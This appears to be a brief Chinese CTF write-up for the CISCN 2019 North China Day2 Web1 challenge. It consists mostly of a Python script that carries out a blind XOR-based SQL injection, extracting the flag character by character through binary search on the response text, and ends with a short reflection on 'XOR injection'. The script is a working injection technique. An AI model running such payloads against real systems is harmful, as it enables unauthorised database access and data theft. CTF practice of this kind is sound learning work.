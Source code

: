 脚本

[CISCN 2019华北Day2]Web1已解决

因为只要语句正常，就会返回Hello, glzjin wants a girlfriend

*import requests*
*import time*

*url = "http://node4.anna.nssctf.cn:28823/"*
*payload = {*
	*"id" : ""*
*}*
*result = ""*

*//二分法*

*for i in range(1,100):*
	*l = 33*
	*r =130*
	*mid = (l+r)>>1*
	*while(l<r):*
		*payload["id"] = "0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)*
		*html = requests.post(url,data=payload)*
		*print(payload)*
		*if "Hello" in html.text:*
			*l = mid+1*
		*else:*
			*r = mid*
		*mid = (l+r)>>1*
	*if(chr(mid)==" "):*
		*break*
	*result = result + chr(mid)*
	*print(result)*
*print("flag: " ,result)*![2284a97788852e365e641ea66157f80](C:\Users\86176\Documents\WeChat Files\wxid_0spynmhiw93122\FileStorage\Temp\2284a97788852e365e641ea66157f80.jpg)总结一下：

这是一道注入题，以前没见过。

异或注入